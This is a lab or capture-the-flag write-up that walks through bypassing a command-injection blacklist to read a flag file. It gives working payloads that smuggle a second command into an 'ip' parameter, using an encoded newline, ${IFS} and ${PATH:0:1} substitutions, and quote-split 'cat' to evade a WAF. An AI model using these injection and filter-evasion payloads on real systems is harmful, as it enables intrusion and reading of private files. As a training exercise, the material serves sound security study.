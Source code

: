 ```yaml
---
description: >-
  Use what you learned in this section find the content of flag.txt in the home
  folder of the user you previously found.
---
```


# Bypassing Blacklisted Commands

We continue to build up on our command in order to bypass the blacklist.&#x20;

First lets list the files inside the user 1nj3c70r. We add `${PATH:0:1}1nj3c70r` to our command:

```bash
ip=127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see the `flag.txt` is indeed in the home folder.

Now all we have to to is retrieve the content from the file. To this we need to use the `cat` command.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since some basic commands are in the blacklist, if we just insert cat we won't be able to use it in order the see the content of the `flag.txt`.

That's why we have to "break" the command with double-quotes in order to by pass the WAF:

{% code overflow="wrap" %}
```bash
ip=127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
{% endcode %}

The command will be interpreted like this:

```bash
ping -c 1 127.0.0.1; cat /home/1nj3c70r/flag.txt
```

